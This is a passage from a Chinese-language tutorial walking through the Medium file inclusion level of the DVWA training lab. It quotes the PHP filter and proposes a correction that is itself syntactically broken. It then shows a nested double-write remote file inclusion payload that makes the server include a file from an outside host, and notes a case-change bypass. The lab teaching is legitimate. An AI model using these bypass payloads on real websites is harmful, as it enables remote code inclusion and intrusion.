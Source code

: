 

![img](https://image.3001.net/images/20200527/15905413817484.png)



… 伪协议这块比较多 国光这篇文章说的 DVWA 就不再继续拓展了，感兴趣的朋友可以自己去研究看看

## Medium

看下本关的过滤级别：





php

```php
$file = str_replace( array( "http://", "https://" ), "", $file );
$file = str_replace( array( "../", "..\"" ), "", $file );
```

可以看到过滤了 `http://` 和 `https://` 以及 `../` 和 `.."`，这里国光我一直有疑问，网上文章都说过滤了 `..\`，不知道他们尝试了没有，这里代码明显是过滤了 `.."`，不过这样过滤是没有意义的，所以应该是 DVWA 的作者写错了，正确的过滤代码应该这么写：





php

```php
$file = str_replace( array( "../", "..\\ ), "", $file );
```

> 国光我看了网上很多讲解 DVWA 的文章，这里的错误貌似都没有人提到，很奇怪，我不相信大家搞代码审计的，连这种小 BUG 都看不出来

1. **远程文件包含**

先看远程文件包含，过滤了 `http://` 和 `https://`，因为使用的是 str_replace 替换为空，所以这里可以使用常规套路，就是嵌套双写绕过。具体的 payload 如下：





payload

```payload
/fi/?page=hhttps://ttps://www.sqlsec.com/info.txt
```

str_replace 函数处理之后就变成了如下情况：





payload

```payload
/fi/?page=https://www.sqlsec.com/info.txt
```

又因为正则匹配没有不区分大小写，所以这里通过大小写转换也是可以成功绕过：



